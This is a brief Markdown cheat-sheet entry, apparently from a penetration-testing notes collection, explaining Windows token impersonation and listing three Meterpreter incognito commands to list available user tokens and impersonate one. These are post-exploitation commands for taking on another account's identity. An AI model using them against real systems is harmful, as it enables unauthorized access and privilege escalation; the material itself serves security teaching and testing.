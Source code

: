 # Token Impersonation

> As a user on a machine, you can enumerate the currently available tokens and utilize one of the tokens to impersonate the token's user account. From then on, any actions you take you take **as that user account**.

---

## Impersonate user token with meterpreter/incognito

```bash
meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token $USERNAME
```
